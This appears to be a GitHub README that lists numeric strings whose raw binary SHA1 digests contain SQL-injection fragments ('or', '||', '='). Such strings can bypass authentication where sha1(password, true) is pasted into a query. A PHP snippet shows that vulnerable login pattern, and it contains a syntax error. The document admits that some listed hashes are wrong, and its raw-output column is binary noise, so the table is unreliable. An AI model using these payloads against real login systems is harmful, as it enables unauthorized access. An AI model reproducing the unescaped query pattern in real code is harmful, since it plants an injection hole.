# SHA1_RAW_SQL

# EDIT SOME OF THOSE HASHES CONTAIN ERRORS.... FIXING CONTINUES.
| Hash string                | SHA1 Hash                                     | Raw output            |Query |
| -------------------------- |:---------------------------------------------:|:---------------------:|:----:|
| 6698203317799070           |96009c0bafe7be05e23b0079226f7222d82fee88       |�����;y"or"�/�       |"or"  |
| 6986601413296588           |9086f64aee685f31666689e7277c7c27dc9c78ae       | ���J�h_1ff��'\|\|'ܜx�|'\|\|'| 
| 1544198490432198           |0ab4f9472ad062911f1c276f72275e323ec0ea06       | ��G*�b�'or'^2>��   |'or'  |          
| 3672425191345760           |f329613e274f522773ab025380a2a48a65dc8c9d       | �)a>'OR's�S����e܌�  |'OR'  |
| 90044158557888             |ecb85b1335f495fa07c8273d2764f9e7381569c9       | �\[5����'='d��8i�  |'='   |
| 8152926040256027           |49f3b2b968273d27b41e8b5892b0719858fd1608       | I�h'='��X��q�X�    |'='   |
| 4219257263531947           |e592e062d009273d274dbbc3d3661d9b4ef58724       | ��b� '='M���f�N��$   |'='   |
| 681285578467884            |8d2c4c556c521d273d270eade836f4338a03904d       | �,LUlR'='��6�3��M  |'='   |
| 3133235857654965           |df22273d277b42b1bf4fc3429ea9c861ae869844       | �"'='{B��O�B���a���D  |'='   |
| 576197079592062            |d5fa374044a0a3c07bca570744d3273d276c3511       | ��7@D���{�WD�'='l5  |'='   |

#  EXAMPLE USAGE

```php
<?php

...SOME CODE...

function escape_sql()
  {
    ...sql escape...
  }
  
$pass = sha1($_POST['pass'], true);

$log = escape_sql($_POST'log']);

$sql = "select * from tablename where password=$pass AND username=$log";


...SOME CODE...
?>
```
